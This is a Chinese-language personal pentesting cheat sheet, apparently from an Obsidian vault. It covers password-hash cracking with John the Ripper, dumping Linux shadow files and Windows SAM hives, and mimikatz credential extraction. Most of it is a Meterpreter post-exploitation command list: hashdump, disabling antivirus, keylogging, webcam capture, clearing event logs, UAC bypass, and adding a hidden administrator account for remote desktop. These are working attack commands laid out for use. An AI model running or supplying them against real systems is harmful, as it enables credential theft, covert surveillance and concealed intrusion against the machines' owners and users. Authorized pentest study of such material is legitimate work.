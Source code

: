 john test.txt --format=crypt

 john爆破出现Using default input encoding: UTF-8 No password hashes loaded (see FAQ)
 我以为是
 >在Vim中直接进行转换文件编码,比如将一个文件转换成utf-8格式  
`:set fileencoding=utf-8`
查看文件格式  
`:set fileformat?`
设置文件格式为 unix  
`:set fileformat=unix`

结果不是
 出现这个提示不是说明破解失败了，而是这个hash以前被你破解过，可以使用以下命令查看破解出的密码是什么。
使用下面这条命令即可解决
john --show password.txt

msf永恒之蓝命令执行后：
hashdump得到的值拿到最后32位字母数字组合可以在下图,注意类型是NTLM
![[Pasted image 20240318142344.png]]

![[Pasted image 20240318114658.png]]

unshadow命令基本上会结合/etc/passwd的数据和/etc/shadow的数据，创建1个含有用户名和密码详细信息的文件
unshadow /etc/passwd /etc/shadow > shadow

Windows的登录密码的hash值保存在SAM文件中，SAM是“security account manager”的首字母缩写。通常，它位于

```
  C:\windows\system32\config\SAM
```
SAM文件被Windows保护，不能直接读取，需借助工具，如[SAMInside](http://www.insidepro.com/download/saminside.zip)。找一台Windows7虚拟机，新建一个名为hashcat的管理员用户，并设置密码，在Windows7中下载并解压SAMInside后以管理员权限运行，然后点击File->Import Local Users vis Scheduler，如下图所示：
```css
//导出 SAM 和 System 文件：通过 reg 的注册表导出
reg save hklm\sam sam.hive 
reg save hklm\system system.hive
move 移动文件
//使用mimikatz读取SAM和System文件
lsadump::sam /sam:sam.hive /system:system.hive
```
```css
samdump2 system.hive sam.hive > hash.txt
```
```bash
john -format=NT hash.txt  #破解,使用john自带的密码字典
john --show -format=NT hash.txt    #查看破解结果
```

![[Pasted image 20240318155653.png]]

```
ssh2john ~/.ssh/id_rsa > id_rsa.hash
```

```
keepass2john newdb.kdb > newdb.kdb.hash
```

```
rar2john encrypted.rar > encrypted.rar.hash
```

>[!ips]
后渗透阶段:
在meterpreter > 中我们可以使用以下的命令来实现对目标的操作：
sysinfo             #查看目标主机系统信息
run scraper         #查看目标主机详细信息
hashdump        #导出密码的哈希
load kiwi           #加载
ps                  #查看目标主机进程信息
pwd                 #查看目标当前目录(windows)
getlwd              #查看目标当前目录(Linux)
search -f *.jsp -d e:\                #搜索E盘中所有以.jsp为后缀的文件
download  e:\test.txt  /root          #将目标机的e:\test.txt文件下载到/root目录下
upload    /root/test.txt d:\test      #将/root/test.txt上传到目标机的 d:\test\ 目录下getpid              #查看当前Meterpreter Shell的进程
PIDmigrate 1384     #将当前Meterpreter Shell的进程迁移到PID为1384的进程上
idletime            #查看主机运行时间
getuid              #查看获取的当前权限
getsystem           #提权
run  killav         #关闭杀毒软件
screenshot          #截图
webcam_list         #查看目标主机的摄像头
webcam_snap         #拍照
webcam_stream       #开视频
execute  参数  -f 可执行文件   #执行可执行程序
run getgui -u hack -p 123    #创建hack用户，密码为123
run getgui -e                #开启远程桌面
run post/windows/manage/enable_rdp
keyscan_start                #开启键盘记录功能
keyscan_dump                 #显示捕捉到的键盘记录信息
keyscan_stop                 #停止键盘记录功能
uictl  disable  keyboard     #禁止目标使用键盘
uictl  enable   keyboard     #允许目标使用键盘
uictl  disable  mouse        #禁止目标使用鼠标
uictl  enable   mouse        #允许目标使用鼠标
load                         #使用扩展库
run				             #使用扩展库
clearev                       #清除日志

mimikatz
```python
##右键以管理员权限运行
##获取调试权限
privilege::debug
#在具有Isass进程的权限才可以抓到密码
##抓取密码
sekurlsa::logonpasswords

```

wifi密码抓取
```css
netsh wlan show profile 
netsh wlan show profile name="ssid" KEY=clear
```

windows 控制台cmd乱码的解决办法 chcp 65001

开启远程桌面的办法
```cs
getuid
#如果当前是user权限要管理员权限才能开启3389
#要用到bypassuac提权
use exploit/windows/local/bypassuac
set session 1
run

run post/windows/manage/enable_rdp

#进入shell
net user hacker 123qwe.. /add
#将用户提升到管理员权限
net localgroup administrators hacker /add

rdesktop -u hacker -p 123qwe..  192.168.1.145
```

```Css
使用kiwi来获取靶机密码，注意这里需要进行的一个操作为进程迁移，因为我们这里上线到msf的载荷是32位的(即x86)，这里需要找一个64位的(即x64)进行进程迁移才能使用kiwi获取靶机密码

sessions -i 2
load kiwi
kiwi_cmd privilege::debug
ps
#getpid #查看meterpreter shell的进程号

migrate 1144
#kill 2496 #关闭进程
#run post/windows/manage/migrate #自动迁移进程

kiwi_cmd sekurlsa::logonPasswords

```

参考链接
[使用hashcat爆破各种hash | 若水斋](https://blog.werner.wiki/use-hashcat-crack-all-kinds-of-hash/)

[Windows 用户密码的加密方法与破解 | 国光](https://www.sqlsec.com/2019/11/winhash.html)

[永恒之蓝漏洞复现(ms17-010) - hkgan - 博客园](https://www.cnblogs.com/hkgan/p/17339860.html)

[SMBGhost\_RCE漏洞利用（MSF和CS联动） - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/277707.html)

[MSF中kiwi模块的使用\_load kivi-CSDN博客](https://blog.csdn.net/m0_53087192/article/details/112707016)